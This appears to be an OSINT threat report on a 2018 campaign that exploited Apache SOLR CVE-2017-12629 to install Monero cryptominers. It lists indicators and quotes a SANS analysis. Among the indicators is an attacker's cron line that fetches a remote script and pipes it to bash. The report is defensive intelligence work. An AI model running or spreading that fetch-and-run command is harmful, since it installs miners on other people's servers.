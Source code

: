 # Threat Report: 2018-03-09: OSINT - Apache SOLR: the new target for cryptominers


## Key Intelligence
* Date: 2018-03-09
* Threat Level: 3 (Low)
* Tags: tlp:white, dnc:malware-type="CoinMiner", osint:source-type="blog-post"

---

## Indicators of Compromise (IOCs)
### Artifacts dropped
* pattern-in-file: 25 0,3,6,9,12,15,18 * * * curl -s "hxxp://mms.kenguru.ru/includes/libraries/getsetup.php?p=sl" | bash

### External analysis
* text: Earlier this year, I wrote about a campaign targeting vulnerable Oracle WebLogic installations to deploy cryptocurrency miners [1] . Based on some of the mining pool statistics associated with these installs, criminals were quite successful. Now that most Oracle WebLogic servers are fixed, miscreants had to move to another target. Based on an incident I responded to on Thursday, vulnerable Apache SOLR servers may now be â€œitâ€.

Within 9 days (from Feb, 28 to Mar, 8) this single campaign exploited 1416 vulnerable Apache SOLR servers to deploy  Monero XMRig miners across the globe. There are enough similarities between these two attacks to suggest that this is the same group that was responsible for the WebLogic campaign. Log formats, file names and even the basic install script for the miner are identical. Of course, it is always possible that we are just dealing with copycats. These scripts have been out in the open for a while now.

The flaw (CVE-2017-12629) [2] first announced October 12th 2017, affects Apache SOLR version 7.1 and below. Due to an incorrectly configured XML parser in the â€œqueryparserâ€ library, attackers can get access to sensitive information or execute arbitrary code on vulnerable systems.

The CVSS v2 score is only "High" (7.5). But an exploit has been widely available since October 17th, less than a week after the vulnerability was made public. It is no surprise that attackers quickly turned to this easily executed exploit. The CVSS v3 score of "Critical" (9.8) is probably more appropriate.
* link: https://isc.sans.edu/diary/23425
* url: https://isc.sans.edu/forums/diary/Campaign+is+using+a+recently+released+WebLogic+exploit+to+deploy+a+Monero+miner/23191/
* url: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-12629
* url: https://www.securityfocus.com/bid/101261/info

### Network activity
* domain: pool-proxy.com — On port 8080
* url: http://mms.kenguru.ru/includes/libraries/getsetup.php

### Payload delivery
* vulnerability: CVE-2017-12629

## Objects
### file — File object describing a file with meta-information
* [Payload delivery] filename: fs-manager
* [Payload delivery] sha256: <sha256>
* [Other] text: Malicious

### file — File object describing a file with meta-information
* [Payload delivery] filename: config.json
* [Payload delivery] sha256: <sha256>
* [Other] text: Malicious

### file — File object describing a file with meta-information
* [Payload delivery] sha1: <sha1>
* [Payload delivery] sha256: <sha256>
* [Payload delivery] md5: <md5>

### virustotal-report — VirusTotal report
* [External analysis] link: https://www.virustotal.com/file/7153ac617df7aa6f911e361b1f0c8188ca5c142c6aaa8faa2a59b55e0b823c1c/analysis/1519925650/
* [Other] text: 22/60
* [Other] datetime: 2018-03-01T17:34:10
